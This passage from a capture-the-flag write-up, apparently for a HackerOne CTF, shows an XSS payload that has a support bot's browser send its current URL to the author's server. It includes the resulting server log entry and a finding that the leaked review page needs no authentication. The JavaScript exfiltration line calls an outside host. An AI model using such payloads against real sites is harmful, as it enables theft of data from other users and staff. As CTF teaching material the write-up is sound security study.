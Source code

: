 The ability to save and ban an user, but there is no action attribute in form tag. (Here I lost some time because I simply let the simple to be the last: getting document.location). Let's see what URL the bot is using to see our review.

```javascript
var i = document.createElement("img");
i.src = "http://my_server/?leak="+encodeURIComponent(document.location);
```

Sending this payload we get the hit:

```
18.218.90.126 - - [16/Jan/2020:18:44:50 +0000] "GET /?cookie=http%3A%2F%2Flocalhost%3A3000%2Fsupport%2Freview%2Fd66fe62e76bc636f44d5979eddf73d9ea85ae9a037372f494058dde6fc4f2a5c HTTP/1.1" 403 571 "http://localhost:3000/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36" "-"
```

Which give us another endpoint: `http://localhost:3000/support/review/d66fe62e76bc636f44d5979eddf73d9ea85ae9a037372f494058dde6fc4f2a5c`

## Improper Access Control

Going to `https://h1-415.h1ctf.com/support/review/d66fe62e76bc636f44d5979eddf73d9ea85ae9a037372f494058dde6fc4f2a5c` we can access what the bot (support/Headless Chrome) is seeing. More than that, there is no need to be authenticated to see this page.

![Review](images/review.png)

